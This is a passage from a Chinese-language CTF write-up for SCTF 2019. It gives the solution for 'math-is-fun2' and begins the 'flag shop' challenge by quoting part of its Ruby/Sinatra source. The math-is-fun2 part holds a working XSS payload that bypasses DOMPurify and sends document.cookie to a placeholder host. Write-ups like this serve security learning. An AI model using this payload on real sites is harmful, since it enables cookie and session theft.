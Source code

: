 两题都可以用这个paylaod打
![](/img/2019-sctf-3.png)

## math-is-fun2
题解同上，
payload：
```javascript
name=a;alert(1);%0aDOMPurify[%27isSupported%27]%3dfalse&text=<script>window.location.href%3d"http://xxxx.xxxx/?a%3d"%2bescape(document.cookie)
```
## flag shop
robots.txt提示/filebak，访问后拿到源码：
```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
#ENV["SECRET"] = SecureRandom.hex(xx)

configure do
 enable :logging
 file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
 file.sync = true
```